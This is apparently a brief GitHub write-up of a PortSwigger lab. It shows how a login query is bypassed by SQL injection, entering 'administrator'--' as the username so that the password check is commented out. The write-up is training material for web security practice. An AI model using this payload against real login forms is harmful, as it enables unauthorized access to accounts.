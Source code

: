 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/88b33b2a-1f08-41b5-91fa-c1baecc2a18b)

## Solution :

Query made --

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'hddkdkdkk'
```

For bypass the login just comment out the password part in WHERE clause.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'hddkdkdkk'
```
![Screenshot 2024-02-01 152406](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8d4ddfcc-1379-4d7b-9cb8-bd40923798b2)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4a102489-2b97-4f19-9c91-525ffd40f3d8)

